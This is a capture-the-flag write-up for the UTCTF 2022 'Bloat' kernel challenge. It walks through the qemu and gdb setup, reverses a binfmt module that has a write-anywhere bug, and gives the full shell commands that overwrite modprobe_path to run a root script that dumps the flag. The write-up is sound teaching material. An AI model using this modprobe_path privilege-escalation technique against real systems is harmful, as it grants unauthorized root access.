 **Bloat**

was a kernel exploitation challenge from UTCTF 2022.

It was a very basic kernel challenge, and make a good introduction to kernel vulnerability exploitation..



As often with kernel challenges, we were given a kernel image "bzImage", 

an initramfs image containing the root filesystem named "rootfs.cpio.gz"

and script to launch the challenge via qemu.

first we extracted the filesystem like this:

```sh
mkdir rootfs
cd rootfs
zcat ../rootfs.cpio.gz | sudo cpio -idv
```

We use sudo in our commands, because some files are going to be created as root user in the original filesystem.

we inspect the filesystem, and found a custom module named "bloat.ko"

that will be that module that we have to exploit.

if you want to make any modifications to the filesystem, like adding tools, changing user to root, or anything you will need to 

work.. you will have to re-create the rootfs.cpio.gz archive like this:

```sh
cd rootfs
sudo find . | sudo cpio --create --format=newc | gzip -9c > ../rootfs.cpio.gz
```



The bzImage can be extracted to a vmlinux (uncompressed version), with the extract-vmlinux tools that you will find in linux kernel source code directory, in the scripts/ sub-directory.

The version given is stripped from debug info, and symbols , which is painful to work..

You can still extract symbols from with this tool:

https://github.com/marin-m/vmlinux-to-elf.git

it will create a vmlinux.elf from your vmlinux file, with some symbols useful for debugging, like this:

```sh
vmlinux-to-elf vmlinux vmlinux.elf
```

to launch the QEMU virtual machine with the kernel and the initramfs filesystem with gdb debugging

you can use:

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel bzImage \
    -initrd rootfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "rootwait root=/dev/vda console=ttyS0 kpti=1 panic=1 nokaslr quiet" \
    -s -S
```

this will launch the vm with gdb waiting for connection on local port 1234.

You can also put a fake flag , in a "flag.txt" file, qemu will map it as a drive  to /dev/sda (only accessible by root user)

that's the flag that you will have to dump, when you will have succeed in exploiting the module vulnerability, and escalate to root user..

in another windows terminal just do:

```sh
gdb -ex 'set architecture i386:x86_64' -ex 'target remote localhost:1234' -ex 'add-symbol-file bloat.ko 0xffffffffc0000000' -ex 'b load_bloat_binary' -ex 'c' ./vmlinux.elf
```

we will add symbols from the bloat.ko module in the gdb command line, and set a breakpoint at the main function of the module, and continue the execution. I recommend you to use GEF or PWNDBG gdb extension , to make the debugging easier..

In the other windows, you will see the kernel booting...

You can interrupt the VM execution anytime by pressing CTRL+c in gdb windows.. to inspect, modify, etc..

that was our basic setup..



Now let's reverse the bloat.ko module:

![reverse](./pics/reverse.png)



So as the challenge description says,  the module add a new binfmt format, via the kernel module.

If you don't know what binfmt is, you can read basic description here:

https://en.wikipedia.org/wiki/Binfmt_misc

The module register a  basic binary format that consists only of a QWORD containing the wanted mapping address in memory,

and after it, the code to be executed. 

The maximum file size is 256 bytes, and the filename extension must be '.bloat'



When you will try to execute this rudimentary executable, the kernel will pass it to all the binfmt handlers registered,

and when it will be recognized by one of them, it will process the executable.



**So what is the vulnerability here in the module?**

Well.. 

The vm_mmap try to map a RWX zone of 256 bytes at the address in the QWORD to store the code of the .bloat executable.

But it does not check if the mapping success, or return an error..

And it continue the execution to the loop that copy the data from the file, to the address in the QWORD.

The copy loop itself, does not use put_user() to enforce that data will be copied only to user space..and not kernel space.

So if we give a kernel address that is writable, the vm_mmap() call will failed, but the data will be copied to our destination..

basically, it is a "write anywhere primitive"...



<u>question:</u>

 what is the simplest way to have code execution with a write primitive in a recent kernel?

<u>answer:</u>

overwriting `modprobe_path`.

if you don't know about that method, there is a writable `modprobe_path` variable in recent kernel, that contains the path to the 

modprobe binary, that will be executed in case kernel needs to load a module.

```
the kernel executes `call_modprobe` which creates a user-space process with root privileges. `modprobe_path` is a global variable (`char [256]`) pointing to `/sbin/modprobe` by default (and can be set to an arbitrary path via `sysctl kernel.modprobe`).
```

you can found a good explanation here:

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/



So in gdb we just have to check the `modprobe_path` address:

![gdb1](./pics/gdb1.png)

ok so the exploitation will be very straightforward now:

we will create a ".bloat" executable , that overwrite `modprobe_path`  value with a "/tmp/a" string:

`echo -ne "\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a\x00" > /tmp/x.bloat`



then we create a ""/tmp/a" executable, that will contain a script dumping the flag to a file in /tmp:

`echo -e "#!/bin/sh\ncat /dev/sda > /tmp/flag" > /tmp/a`

we create also a fake binary that will launch the modprobe binary from kernel when we try to execute it..

`echo -ne "\xff\xff\xff\xff" > /tmp/b`

we change permissions to executable for all this files:

`chmod a+x /tmp/a /tmp/b /tmp/x.bloat`

then we execute the /tmp/x.bloat first, 

then the /tmp/b fake executable..  and it will launch /tmp/a that dump the flag in /tmp/flag...

we just have to read /tmp/flag now... and that's finish !

![gotflag](./pics/gotflag.png)

**nobodyisnobody still pwning things..**
